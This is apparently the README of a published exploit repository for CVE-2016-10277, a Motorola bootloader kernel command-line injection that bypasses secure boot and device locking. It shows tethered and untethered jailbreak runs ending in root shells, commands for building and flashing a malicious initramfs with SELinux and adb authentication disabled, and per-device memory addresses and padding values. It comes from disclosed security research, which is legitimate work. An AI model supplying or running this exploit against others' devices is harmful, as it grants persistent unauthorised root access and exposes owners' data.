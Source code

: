 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## First stage exploit: Tethered jailbreak ##

This exploit gains an ephemeral unrestricted root access on the device.
For example, on `cedric` (some messages were removed for readability):

```terminal
$ cd ./tethered/cedric
$ ./initroot-tethered.sh
Welcome to initroot-cedric-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0xA2100000,1588596
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>
OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (34319 KB)...
OKAY [  1.098s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.101s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:shell:s0
$ adb shell
cedric:/ # 

```

## Second stage exploit: Untethered jailbreak ##

This exploit gains a persistent root access on the device.
For example, on `athene` (some messages were removed for readabilitiy):

```terminal
$ cd ./untethered/athene
$ ./initroot-untethered.sh 
Welcome to initroot-athene-untethered
Welcome to initroot-athene-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x92000000,2505052
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (35214 KB)...
OKAY [  1.131s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.138s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
padC-initroot: 1 file pushed. 11.1 MB/s (22937600 bytes in 1.963s)
44800+0 records in
44800+0 records out
22937600 bytes transferred in 3.017 secs (7602784 bytes/sec)
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a rdinit= root=/dev/mmcblk0p41
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
rebooting...

finished. total time: 0.815s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
athene:/ # 

```

## Producing your own malicious initramfs archive ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ dd if=/dev/zero of=../pad ibs=1 count=<PAD_SIZE>
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PAD_SIZE>,<initroot.cpio.gz size-PAD_SIZE>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Creating an Untethered exploit for other Moto devices ##

Read our [blog post](https://alephsecurity.com/2017/08/30/untethered-initroot/#persisting-the-payload)


## Verified Devices ##
| Device           | Codename | `SCRATCH_ADDR` | `PADDING`   | committed `initrams` | Unused Partition
|------------------|----------|----------------|-------------|----------------------|---------
| Nexus 6  | `shamu` | `0x11000000`   | `0x0`         | AOSP `userdebug` | `mmcblk0p11`
| Moto G5 (XT1676) | `cedric` | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc | `mmcblk0p41`
| Moto G4 (XT1622) | `athene` | `0x90000000`   | `0x2000000` | "" | `mmcblk0p48`


## Community Reported ##
| Device           | Codename | `SCRATCH_ADDR` | Reporter | Description
|------------------|--------------|--------------|--------------|-----------
| Moto G5 Plus  | `potter` |  `0xA0100000` | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1607)  | `harpia` | `0x90000000` | [m-mullins](https://github.com/m-mullins)   | Full Exploitation of  Amazon XT1607. [[proof](https://github.com/m-mullins/InitRoot_Harpia)]
| Moto G4 Play (XT1609)  | `harpia` | `0x90000000` | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | `athene` | `0x90000000` | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd that caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | `osprey` | `0x90000000` | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd that caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Moto G2 (XT1072) | `thea` | `0x11000000`  | [@TheElix](https://disqus.com/by/TheElix/) | Injected initrd caused boot loops. [[proof](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740)]
| Moto G (XT1032) | `falcon_retfr` | `0x11000000`  | [Pierre Zurek](https://disqus.com/by/pierrezurek/) | Full Exploitation with 64MB padding [[proof](http://disq.us/p/1l1uqgb)]
| Moto E (XT830C) | `condor_cdma` | `0x0E000000`  | [fetcher](https://disqus.com/by/disqus_U4zRE0u275/) | Full Exploitation of XT830C locked to Tracfone/Verizon with a 32MB padding [[proof](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648)]
| Other | - | - | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Video Demo ##

[![Video Demo of CVE-2016-10277](http://img.youtube.com/vi/dijRMpv4ktM/0.jpg)](https://www.youtube.com/watch?v=dijRMpv4ktM)

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)
4. [Untethered initroot (USENIX WOOT '17)](https://alephsecurity.com/2017/08/30/untethered-initroot)
5. [USENIX WOOT '17 paper](https://www.usenix.org/conference/woot17/workshop-program/presentation/hay)


